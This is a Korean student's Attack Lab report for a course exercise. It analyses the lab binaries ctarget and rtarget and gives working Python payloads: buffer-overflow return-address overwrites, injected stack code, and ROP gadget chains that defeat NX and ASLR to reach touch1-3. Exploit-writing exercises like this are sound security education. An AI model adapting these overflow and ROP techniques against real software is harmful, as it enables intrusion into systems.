


<style>
html {
    font-family: Arial, Helvetica, sans-serif;
    font-size: 11pt;
}

.break {
    break-after: page;
}
</style>

# Attack Lab Report

## Profile

- 날짜: 2025.11.01
- 학번: 20240614
- 이름: 이종원

## ctarget (level 1-3)

### Binary Core Structure



### Binary Information

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
```

### 0. Non Excutable

Binary NX bit를 보면 이 바이너리는 NX가 켜져있다는 것을 알 수 있다. 그러므로 과제에서 명시된 Code Injection은 이 바이너리로는 수행할 수 없다.  

```
gef➤  vmmap
[ Legend:  Code | Stack | Heap ]
Start              End                Offset             Perm Path
...
0x0000000055586000 0x0000000055686000 0x0000000000000000 rwx
...
0x00007ffffffdd000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

그러나 vmmap을 통해 바이너리 각 부분의 rwx 권한을 조회하면 특정 부분에서 rwx가 모두 켜져있다는 것을 알 수 있다. 이는 프로그램이 `stable_launch` 및 `launch`에서 설정한 custom stack을 사용하고 있기 때문이다. 이는 ASLR를 키면서도 안 켜진 상황을 시뮬레이션하기 위해 임의로 할당한 것이다.  
따라서 이 바이너리는 Code Injection이 가능하다.

### 1. getbuf

Buffer Overflow가 일어나는 함수이다.

```
gef➤  disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017e6 <+0>:  sub    rsp,0x38
   0x00000000004017ea <+4>:  mov    rdi,rsp
   0x00000000004017ed <+7>:  call   0x401a2a <Gets>
   0x00000000004017f2 <+12>: mov    eax,0x1
   0x00000000004017f7 <+17>: add    rsp,0x38
-> 0x00000000004017fb <+21>: ret
```

다음과 같은 구조로 이루어져 있는데, 이는 `$rsp - 0x38`에 buffer를 만들고 입력을 받아 `$rsp` 부분을 원하는 주소로 덮어 rip를 조작해 원하는 코드를 실행시키는 방식이다. `*getbuf+21` 관점에서 스택을 보면 다음과 같다.

```
<buffer> // $rsp - 0x38
<buffer> // $rsp - 0x30
<buffer> // $rsp - 0x28
<buffer> // $rsp - 0x20
<buffer> // $rsp - 0x18
<buffer> // $rsp - 0x10
<buffer> // $rsp - 0x08
ret addr // $rsp
```

이때 후술할 [Gets](#2-gets) 함수의 구조에 의해 ret addr를 덮어씌울 수 있다. 따라서 이 return address를 `touch1`, `touch2`, 또는 `touch3`로 덮는다면 해당 함수를 호출할 수 있다.

### 2. Gets

이 함수는 입력한 문자열을 앞에서부터 읽어 주어진 buffer 인자에 저장하고 EOF를 만나거나 개행문자를 만난다면 종료하는 함수이다.


동작은 이와 같이 설명할 수 있다. 우선 rbx에 인자(buffer address)를 저장하고 `get` 함수를 통해 맨 앞 1바이트를 읽는다. 이후 eax가 -1이나 10(=`\n`)이 아니라면 해당 rbx에 저장하고, rbx의 값을 1 증가시킨다. 만약 조건에 맞는다면 rbx에 0(=null terminator)을 저장하고 함수를 종료한다.

여기서 알 수 있듯이 문자 몇 개를 받는지에 대한 제한이 존재하지 않는다. 따라서 스택의 return address를 덮을 수 있다.

### 3. hexmatch

```
gef➤  x/s 0x402f8d
0x402f8d:       "%.8x"
```
```
0x00000000004018c9 <+75>:  mov    esi,0x402f8d
0x00000000004018ce <+80>:  mov    rdi,rbx
0x00000000004018d1 <+83>:  mov    eax,0x0
0x00000000004018d6 <+88>:  call   0x400de0 <sprintf@plt>
0x00000000004018db <+93>:  mov    edx,0x9
0x00000000004018e0 <+98>:  mov    rsi,rbx
0x00000000004018e3 <+101>: mov    rdi,rbp
0x00000000004018e6 <+104>: call   0x400c30 <strncmp@plt>
0x00000000004018eb <+109>: test   eax,eax
0x00000000004018ed <+111>: sete   al
0x00000000004018f0 <+114>: movzx  eax,al
0x00000000004018fb <+125>: ret
```

hexmatch 함수는 주어진 edi, rsi에 각각 int 값과 addr를 받는다. 이후 edi의 값을 `sprintf` 함수로 `".8x"`, 즉, 최소 길이 8의 hex로 바꾼다. 이후 이 값이 주어진 문자열과 같은지 rsi에 저장된 주소의 값과 비교하여 같으면 1, 아니면 0을 반환한다.

<div class="break"></div>

### 4. touch 1

우선 들어가기 전에 [Binary Information](#binary-information)를 보면 알 수 있듯이 `PIE`가 꺼져있다. 따라서 프로그램 실행 주소는 변하지 않는다.

```
0x0000000000401819 <+29>:    call   0x401c19 <validate>
```

touch1 함수의 경우 아무 검사도 하지 않고 호출만 하면 validate를 호출한다. 따라서 solution은 다음과 같다.

```python
solution = (
    b"a" * BUF_SIZE # padding
    + p64(0x4017fc) # touch 1
)
```

여기서 `p64`란 문자열로 입력하고 정수로 읽었을 때 주어진 64비트 정수로 해석될 수 있도록 바꿔주는 함수이다. 이것은 `little-endian`과 문자열을 읽는 방식의 차이로 발생한다.

### 5. touch 2

```
0x0000000000401838 <+16>: cmp    edi,DWORD PTR [rip+0x202cc6] # 0x604504 <cookie>
0x000000000040183e <+22>: jne    0x40185b <touch2+51>
0x0000000000401854 <+44>: call   0x401c19 <validate>
```

touch2 함수의 경우에는 edi, 즉 첫 번째 인자가 global variable인 cookie의 값과 같아야 한다. 이때 cookie는 [Binary Structure](#binary-core-structure)의 gencookie 부분에서 만들어졌다. 또한 사전에 `cookie.txt`로 주어지기도 하였다.  
[NX](#0-non-excutable) 부분에서 설명했듯이 해당 스택은 custom stack으로 rwx 권한을 가지고 있기에 stack에 binary를 써넣으면 실행이 된다. 이때 rdi에 cookie의 값이 할당되는 코드가 실행되어야 한다. 따라서 solution은 다음과 같다.

```python
POPRDIRET = b'\x5f\xc3' # pop rdi; ret, arch='amd64'
solution = (
    POPRDIRET
    + b"a" * (BUF_SIZE - len(POPRDIRET)) # padding
    + p64(0x5561e608) # pop rdi; ret addr (stack address)
    + p64(COOKIE) # cookie value
    + p64(0x401828) # touch 2
)
```

이렇게 되면 스택에는 code, padding, code addr, cookie value, touch2 addr가 순서대로 들어간다. 이때 `getbuf`의 ret은 code addr를 rip에 저장하여 프로그램의 실행은 code로 넘어가게 되고, 이때 rsp는 cookie value를 가리키고 있기에 `pop rdi`를 하게 되면 rdi에 cookie의 값이 들어가게 된다. 이후 code의 ret이 실행되면 touch2의 주소가 rip에 할당되면서 touch2가 rdi와 함께 호출된다.

<div class="break"></div>

### 6. touch 3

```
0x000000000040190a <+14>: mov    rsi,rdi
0x000000000040190d <+17>: mov    edi,DWORD PTR [rip+0x202bf1]  # 0x604504 <cookie>
0x0000000000401913 <+23>: call   0x40187e <hexmatch>
0x0000000000401918 <+28>: test   eax,eax
0x000000000040191a <+30>: je     0x40193a <touch3+62>
...
0x0000000000401933 <+55>: call   0x401c19 <validate>
```

touch3는 rdi에 어떤 문자열 주소를 받는다. 이때 이 값은 [hexmatch](#3-hexmatch)에 실제 cookie value와 함께 넘어가서 rdi에 저장된 주소에 있는 문자열과 cookie의 hex string이 같은지 검사한다. 이후 같다면 validate를 호출한다. 이는 rdi에 문자열의 주소를 저장해야 하기 때문에 cookie hex string을 저장하고 그 주소를 rdi에 넘겨야 한다. 따라서 solution은 다음과 같다.

```python
payload = long_to_bytes(COOKIE).hex().encode() + b'\x00'
solution = (
    payload
    + POPRDIRET
    + b"a" * (BUF_SIZE - len(payload) - len(POPRDIRET)) # padding
    + p64(0x5561e608 + len(payload)) # pop rdi; ret
    + p64(0x5561e608) # cookie hex value address
    + p64(0x4018fc) # touch 3
)
```

이때 `long_to_bytes`는 정수를 `big-endian` 형식으로 bytes로 바꾸어주는 함수이다.  
뒤에 문자열의 끝을 명시하기 위해 null terminator를 붙여 cookie hex string을 만들 수 있다. 이후 [touch 2](#5-touch-2)와 같이 `pop rdi; ret` 코드를 스택에 작성하고, padding을 넣는다. `getbuf`의 ret이 입력한 코드로 이동하도록 주소를 조정하고 rdi에 문자열의 주소(스택의 맨 위 주소)를 넣을 수 있도록 스택에 넣어준 후, touch 3의 주소를 넣는다. 이렇게 되면 rdi에 문자열의 주소가 들어간 채로 touch 3가 호출된다.

<div class="break"></div>

## rtarget (level 4-5)

### Binary Core Structure



### Binary Information

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
```

### 0. Non Excutable and ASLR

`rtarget`은 [ctarget binary core structure](#binary-core-structure)와 다르게 `stable_launch` 부분이 없다. 이는 일반적인 stack을 사용하기에 실제로 사용할 스택은 NX며, ASLR에 의해 주소가 실행마다 변한다는 걸 뜻한다.

```
0x00007ffffff9f000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

### 1. farm

farm의 각 함수들은 어디에서도 불러지지 않는다. 다만 이 문제에서는 `ROP Gadget`을 위해서 만들어놓은 함수이기에 상관 없다. `start_farm` 부터 `end_farm` 사이에 있는 함수들(0x401984 - 0x401aa3)에서 ROP gadget을 뽑아내야한다. 이를 위해서 다음 코드를 통해 해당 함수들 사이의 모든 코드를 hex로 바꾸어 저장할 수 있다.

```python
from pwn import ELF

elf = ELF("./rtarget")

startFarm_VA = elf.symbols['start_farm']
endFarm_VA = elf.symbols['end_farm']

startFarm_offset = elf.vaddr_to_offset(startFarm_VA)
endFarm_offset = elf.vaddr_to_offset(endFarm_VA) + 6

with open("./rtarget", "rb") as f:
    f.seek(startFarm_offset)
    farm_bytes = f.read(endFarm_offset - startFarm_offset)

with open("farm.hex", "w") as f:
    f.write(farm_bytes.hex())
```

결과는 다음과 같다.

```
B801000000C3B84C89C7C3C3C7074889C790C3C7074889C792C3C70708589090C38D87995890C3C3B86E50C3CEC38D874889C790C38D8704005891C3B801000000C3488D0437C3C70789D120DBC3C7078DC238D2C3B84889E0C1C38D874889E0C2C3B809D1C318C3B889D190C1C3C70789CEA4C0C3B8A9D108DBC3C707C889E0C3C3C70789CE18DBC3B889C2C4D2C3B84889E090C3C70789CE00D2C3C707C9CE20D2C3B889D160D2C38D8789C294D2C3C7077F48A9E0C3C70789CEA4C9C3B889D120C9C3B889CE08D2C38D8789C290C7C3B84C89E0C3C38D8789C290C3C3B84989E0C3C3C70789CEC4D2C3B84889E0C3C3B889C208DBC38D871489C291C3C70789C260C0C38D8789CE84DBC3C70709D184DBC3B809D120D2C3B801000000C3
```

여기서 이용할 만한 ROP gadget은 다음과 같다.

1. 5890C3 : `pop rax; nop; ret` (<font color=blue>0x4019a8</font>)
2. 4889C790C3 : `mov rdi, rax; nop; ret` (<font color=blue>0x401992</font>)
3. 4889E0C3 : `mov rax, rsp; ret` (<font color=blue>0x401a70</font>)
4. 89C290C3 : `mov edx, eax; nop; ret` (<font color=blue>0x401a5d</font>)
5. 89D120DBC3 : `mov ecx, edx; and bl, bl; ret` (<font color=blue>0x4019cd</font>)
6. 89CE08D2C3 : `mov esi, ecx; or dl, dl; ret` (<font color=blue>0x401a49</font>)
7. 488D0437C3 : `lea rax, [rdi + rsi]; ret` (<font color=blue>0x4019c6</font>)

`nop`, `and bl, bl`, `or dl, dl`의 경우는 아무 역할도 하지 않으므로 괜찮다.

<div class="break"></div>

### 2. touch 2

[touch 2](#5-touch-2)의 구조는 위에서 분석한 것과 같다. 그러나 stack에 코드를 넣지 못해 ROP gadget을 이용하여 rdi에 원하는 값을 넣어야 한다. 기존 solution에서는 `pop rdi; ret`을 바로 썼지만 ROP gadget 중에는 존재하지 않는다. 하지만 `pop rdi; ret`은 `pop rax; mov rdi, rax; ret`과 동형이다. 따라서 두 개의 가젯을 사용하여 문제를 풀 수 있다. solution은 다음과 같다.

```python
solution = (
    b"a" * BUF_SIZE # padding
    + p64(0x4019a8) # pop rax; nop; ret
    + p64(COOKIE) # cookie value
    + p64(0x401992) # mov rdi, rax; nop; ret
    + p64(0x401828) # touch 2
)
```

이렇게 되면 rax에는 cookie value가 들어가고 그 값이 rdi에 옮겨진 후 ret에 의해 touch 2가 호출되므로 rdi에 cookie가 할당된 채로 touch 2가 호출되는 것과 같다.

### 3. touch 3

ASLR로 인해 stack 주소를 미리 알 수 없어 문자열을 buffer에 직접 저장할 수 없다. 대신 `mov rax, rsp; ret`로 현재 rsp를 구하고, `lea rax, [rdi + rsi]; ret`로 offset을 더해 문자열 위치를 계산할 수 있다. 왜냐하면 `pop rax; nop; ret`, `mov edx, eax; nop; ret`, `mov ecx, edx; and bl, bl; ret`, `mov esi, ecx; or dl, dl; ret`의 가젯 4개를 통해 최종적으로 rsi에 최대 4바이트의 값을 저장할 수 있기 때문이다. 다만 옮기는 과정에서 하위 4바이트만 사용하기 때문에 음수를 표현할 수는 없어서 rdi의 값을 줄일 수는 없다.

따라서 solution은 다음과 같다.

```python
payload = long_to_bytes(COOKIE).hex().encode() + b'\x00'
solution = (
    b"a" * BUF_SIZE # padding
    + p64(0x401a70) # mov rax, rsp; ret
    + p64(0x401992) # mov rdi, rax; nop; ret
    + p64(0x4019a8) # pop rax; nop; ret
    + p64(0x100) # offset to cookie
    + p64(0x401a5d) # mov edx, eax; nop; ret
    + p64(0x4019cd) # mov ecx, edx; and bl, bl; ret
    + p64(0x401a49) # mov esi, ecx; or dl, dl; ret
    + p64(0x4019c6) # lea rax, [rdi + rsi]; ret
    + p64(0x401992) # mov rdi, rax; nop; ret
    + p64(0x4018fc) # touch 3
    + b"a" * (0x100 - 0x40 - 8) # padding (offset - prev_stack_size - self)
    + payload # cookie hex string
)
```

<div class="break"></div>

이때 스택은 다음과 같고, 프로그램은 다음과 같이 흘러간다.

```
0x7ffffffd5fa0 : <padding>
0x7ffffffd5fd8 : 0x401a70
0x7ffffffd5fe0 : 0x401992
0x7ffffffd5fe8 : 0x4019a8
0x7ffffffd5ff0 : 0x100
0x7ffffffd5ff8 : 0x401a5d
0x7ffffffd6000 : 0x4019cd
0x7ffffffd6008 : 0x401a49
0x7ffffffd6010 : 0x4019c6
0x7ffffffd6018 : 0x401992
0x7ffffffd6020 : 0x4018fc
0x7ffffffd6028 : <padding>
0x7ffffffd60e0 : <cookie hex string>
```



```mermaid
graph LR
    A["rsp: 0x7ffffffd5fd8<br/>rax: ?<br/>rcx: ?<br/>rdx: ?<br/>rdi: ?<br/>rsi: ?"] --> B["rsp: 0x7ffffffd5fe0<br/>rax: 0x7ffffffd5fe0<br/>rcx: ?<br/>rdx: ?<br/>rdi: ?<br/>rsi: ?"]
    B --> C["rsp: 0x7ffffffd5fe8<br/>rax: 0x7ffffffd5fe0<br/>rcx: ?<br/>rdx: ?<br/>rdi: 0x7ffffffd5fe0<br/>rsi: ?"]
    C --> D["rsp: 0x7ffffffd5ff0<br/>rax: 0x100<br/>rcx: ?<br/>rdx: ?<br/>rdi: 0x7ffffffd5fe0<br/>rsi: ?"]
    D --> E["rsp: 0x7ffffffd6000<br/>rax: 0x100<br/>rcx: ?<br/>rdx: 0x100<br/>rdi: 0x7ffffffd5fe0<br/>rsi: ?"]
    E --> F["rsp: 0x7ffffffd6008<br/>rax: 0x100<br/>rcx: 0x100<br/>rdx: 0x100<br/>rdi: 0x7ffffffd5fe0<br/>rsi: ?"]
    F --> G["rsp: 0x7ffffffd6010<br/>rax: 0x100<br/>rcx: 0x100<br/>rdx: 0x100<br/>rdi: 0x7ffffffd5fe0<br/>rsi: 0x100"]
    G --> H["rsp: 0x7ffffffd6018<br/>rax: 0x7ffffffd60e0<br/>rcx: 0x100<br/>rdx: 0x100<br/>rdi: 0x7ffffffd5fe0<br/>rsi: 0x100"]
    H --> I["rsp: 0x7ffffffd6020<br/>rax: 0x7ffffffd60e0<br/>rcx: 0x100<br/>rdx: 0x100<br/>rdi: 0x7ffffffd60e0<br/>rsi: 0x100"]
```

이후 마지막 ret에 의해 `touch3`가 호출되면 rdi에 string의 주소가 저장된 채로 넘어가게 된다.